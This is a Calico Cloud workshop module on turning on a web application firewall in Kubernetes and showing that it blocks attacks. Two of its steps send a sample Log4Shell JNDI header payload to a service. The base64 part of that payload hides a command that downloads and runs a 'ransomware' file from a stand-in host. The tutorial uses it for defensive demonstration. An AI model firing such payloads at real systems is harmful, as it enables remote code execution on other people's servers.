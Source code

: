 # Module 3 - Configuring the Workload-Centric WAF

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```

3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```bash
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

---

[:arrow_right: Module 4 - Zero-Day Attacks Detection with Threat Defense](module-4-threat-defense.md)  <br>

[:arrow_left: Module 2 - Customize Security Guardrails for Network-based Threats](module-2-security-guardrails.md)  <br>

[:leftwards_arrow_with_hook: Back to Main](../README.md)  
